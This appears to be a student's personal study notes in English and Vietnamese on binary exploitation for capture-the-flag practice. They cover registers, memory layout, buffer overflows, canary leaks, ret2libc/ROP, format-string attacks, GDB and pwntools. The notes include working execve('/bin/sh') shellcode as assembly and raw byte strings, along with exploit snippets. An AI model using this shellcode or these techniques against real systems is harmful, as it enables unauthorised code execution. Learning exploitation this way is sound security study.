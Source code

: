 # pwn
Studying..
***COMPUTER ARCHITECTURE***
    rax (accumulator register): Return value of a function                                                  rax eax ax ah al (64 32 16 8 8)
    rbx (base register): No primary use on x64                                                              
    rcx (counter register): Loop count for loop statement, or execution count for various operations
    rdx (data register): No primary use on x64
    rsi (source index): Pointer to the source when moving data
    rdi (destination index): Pointer to the destination when moving data
    rsp (stack pointer): Pointer to the location of the stack in use
    rbp (stack base pointer): Pointer to the bottom of the stack


***MEMORY STRUCTURE OF LINUX PROCESS***
    Code Segment: the area where the executable machine code is located, and is also known as the text segment. (r--x)
    Data segemnt: contains global vars (rw-)
    BSS segment(Block Started by Symbol): area of memory where global variables that do not have a value at compile time, = 0 when start. (rw-)
    Stack segment:area where the process' stack is located. (rw-)
    Heap segment: a segment where heap data is located (cấp phát bộ nhớ động). (rw-)
    Extra segment.
    Fs and Gs are registers without predefined purposes, allowing the operating system to use them arbitrarily .


**ASSEMBLY***
    Opcode
        Data Transfer: mov, lea
        Arithmetic: inc, dec, add, sub
        Logical: and, or, xor, not
        Comparison: cmp, test
        Branch: jmp, je, jg
        Stack: push, pop
        Procedure: call, ret, leave
        System call: syscall
    Memory operands
        QWORD PTR [0x8048000]: 8 bytes
        DWORD PTR [0x8048000]: 4 bytes
        WORD PTR [rax]: 2 bytes


**SHELLCODE***
    execve("/bin/sh", null, null)
    syscall     rax     arg0 (rdi)              arg1 (rsi)                  arg2 (rdx)
    execve      0x3b    const char *filename    const char *const *argv     const char *const *envp
        mov rax, 0x68732f6e69622f(/bin/sh)
        push rax
        mov rdi, rsp  ; rdi = "/bin/sh\x00"
        xor rsi, rsi  ; rsi = NULL
        xor rdx, rdx  ; rdx = NULL
        mov rax, 0x3b ; rax = sys_execve
        syscall       ; execve("/bin/sh", null, null)
    x86 
        xor eax, eax
        xor ecx, ecx
        xor edx, edx
        add eax, 0x0b
        xor ebx, ebx
        push ebx
        push 0x68732f2f
        push 0x6e69622f
        mox ebx, esp 
        int 0x80 // syscall
    # execve /bin/sh shellcode: 
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"


***BUFFER OVERFLOW***
    gets(buf): no limit input
                received until "\n" but don't received "\n"
                add "\0" at the end of input
    scanf("%s", buf): no limit input
                received until " "
                same as gets
    scanf("%[width]s", buf):  
                Reads up to `width` characters; if `width > size(buf) - 1`, overflow may occur.  
                Does not guarantee null termination.  

    fgets(buf, len, stream):  
                Reads up to `len - 1` characters; if `len > size(buf)`, overflow may occur.  
                Always null-terminates the buffer.  
                Pads with `\0` if input is shorter than `len`.  
                If input equals `len`, discards the last byte and adds `\0`.  
                May lose data: A 30-byte buffer stores only 29 bytes if `len = 30`.  
                Stores `"\n\0"` if space allows.  
    Stack overflow
    Heap overflow(malloc, calloc)


**CANARY***
    ANTI buffer overflow -> Segmentation fault
    [rbp-0x8]
    Random 8 bytes start with a null byte
    Leak Canary
        buf = b'A'*0x39
        p.sendafter(b'Buf: ', buf)
        p.recvuntil(buf)
        cnry = u64(b'\x00' + p.recvn(7))
        slog('canary', cnry)


***NX & ASLR***
    No-eXecute (NX): anti shellcode
    Address Space Layout Randomization (ASLR): assigns the stack, heap, shared libraries, etc. to random addresses each time the binary is executed
    RELocation Read-Only (RELRO)
        no: GOT overwrite
        partial: got.plt -> read-only
        full: anti GOT
    => Hook Overwrite: Bypassing RELRO: overwrite function pointers(malloc(), free(), realloc()) with an arbitrary function address to execute malicious code.

***R2L-ROP***
    r2l: sử dụng ret để chạy hàm có trong libc => system("/bin/sh")
    ROP: sử dụng ret và các ROP gadget để điều khiển luồng thực thi của chương trình
    GOT(address): global offset table -> nơi chứa địa chỉ các hàm libc(put)
    PLT: procedure linkage table -> thực thi hàm chứa trong GOT
    Return address dc cấp 16 bytes -> chèn thêm ret trước pop rdi ; ret (prevent errors caused by movaps)
    system = read - 0xc3c20 # readelf -s libc.so.6 | grep "read@"
    ROP gadget --binary filename | grep "gadget" (pop rdi ; ret)
        e.got[' ']
        e.plt[' ']

    libc base: random do ASLR
    offset: cố định với mỗi libc, khoảng cách từ libc_base tới địa chỉ của hàm cần tìm
    địa chỉ -> rdi : hàm put in ra toàn bộ dữ liệu bên trong con trỏ
        Ex: leak libc address with puts -> pop rdi
                                     puts@got   <=>  puts(puts@got)
                                     puts@plt
            libc_base = puts_leaked_address - offset_of_puts_in_libc(libc.symbols['puts])
            system = libc_base + system_offset
            binsh = sh + lb
            get shell : rop rdi
                        /bin/sh  <=> system("/bin/sh")
                        system

            x86 :
                read(0,writableArea,len(str(binsh)))
                write(1,read_got,len(str(read_got)))
                read(0,read_got,len(str(read_got)))
                system(writableArea)


***PIE & RELRO***
    Position-Independent Executable (PIE): change address of the program
    Position-Independent Code (PIC):  Code that can run correctly regardless of where it is mapped in memory. It avoids using absolute addresses and typically relies on relative addresses, often based on rip.


***OUT OF BOUNDS***
    OOB occurs when the index value used to reference an element is negative or outside the length of the array. 
    Access arr: &arr[k] = arr + sizeof(elem)*k


***FORMAT STRING***
    printf("%s", input) => in ra chuỗi input
    printf("%s") => in ra giá trị tại địa chỉ thứ 1 trên stack
    CHỉ định tham số $
    printf("%30$s") => in ra giá trị tại địa chỉ thứ 30 trên stack
    printf("%6$p") => in ra giá trị dạng hex tại địa chỉ thứ 6 trên stack 0x
    printf("%6$x") => in ra giá trị dạng hex tại địa chỉ thứ 6 trên stack không có 0x
    Sử dụng format string "%p", "%x", "%d", "%*\n" để leak các giá trị trong stack
    Sử dụng format string "%s" để in ra giá trị của flag trong vùng nhớ của chương trình
    Sử dụng format string "%n", "%hn", "%hhn" để thay đổi giá trị của 1 vùng nhớ có quyền ghi
    32bit: In dữ liệu trên stack
    64bit: 5% đầu: 5 thanh ghi(rsi->rdx->rxd->r8->r9), từ 6 trở đi là in trên stack(rsp->rsp+0x8->rsp+0x10->rsp+0x18)


***DEBUG***
    checksec
        Canary: anti buffer overflow (rbp-0x8)
        NX (Non-Executable): anti Shellcode
        PIE (Position Independent Executable): change address of the program
        RELRO (RELocation Read-Only): No -> Vulnerable to GOT overwrite
    start
    disass main : disassemble main
    vmmap : shows the layout of the virtual memory
    r : run
    b *address : set breakpoint
    del <breakpoint> 
    c : continue
    si: step into
    ni: next instruction
    i: info
    k: kill
    bt: backtrace
    pd: pdisas
    examine: x/<tham số> <địa chỉ>  wx (word hexa), bx (byte hexa), 4i (4 instructions), s ( string )
    RSP (64-bit) / ESP (32-bit): Stack Pointer
    RIP (64-bit) / EIP (32-bit): Instruction Pointer (địa chỉ lệnh tiếp theo thực hiện)

***PWNTOOLS***
    #Process & Remote
    from pwn import *
    p = process('./filename')       //local
    p = remote('address', port)     //remote sever
    gdb.attach(p, api=True)         //debug
    
    #ELF
    e = ELF('./filename')
    libc = ELF("./libc.so.6")            
    e.plt['funcname']                //Get the plt address of the input function. 
    e.got['funcname']                //Get the got address of the input function. 
    e.symbols['funcname']           //Get the offset from the function base address of the input function. 
    libc.symblos['funcname']
    list(libc.search(b'/bin/sh'))[0] //shell

    # Packing Unpacking
    p64(numeric value)    //Packs the value into 64-bit (8-byte).       p: convert int/hex to little-endian
    p32 (numeric value)   //Packs the value into 32- bit (4-byte). 
    u64 (string)          //Unpacks the string into 64- bit (8-byte).   u: convert little-endian to int/hex
    u32 (string)          //Unpacks the string into 32- bit (4-byte). 

    # Sending and receiving data
    p.send(b'A')  # Sends b'A' to ./test
    p.sendline(b'A')  # Sends b'A' followed by a newline to ./test
    p.sendafter(b'hello', b'A')  # Sends b'A' after ./test outputs b'hello'
    p.sendlineafter(b'hello', b'A')  # Sends b'A' followed by a newline after ./test outputs b'hello'
    
    p.recv(1024)  # Receives up to 1024 bytes of data from the process
    p.recvline()  # Receives data from the process until a newline character is encountered
    p.recvn(5)  # Receives exactly 5 bytes of data from the process
    p.recvuntil(b'hello')  # Receives data from the process until 'hello' is encountered
    p.recvall()  # Receives all data from the process until it terminates

    #Shellcode
    32bit: "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
    64bit: "\x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
    code = shellcraft.sh()   # Shellcode to spawn a shell
    shellcràt.cat() # cat filename
    machine_code = asm(code) # Assembles the shellcode into machine code
    
    #Print
    log.info

    #Interactive
    p.interactive()


***PWNINIT***
    export PATH="~/.cargo/bin:$PATH"
    pwninit: tự patch file 
    mv file_patch file: đổi tên

////////////////////////////////////////////
***START***
enter venv: source ~/ctf/bin/activate
exit venv: deactivate
cd "/mnt/d/My folder/Khoi/đại học/ctf"
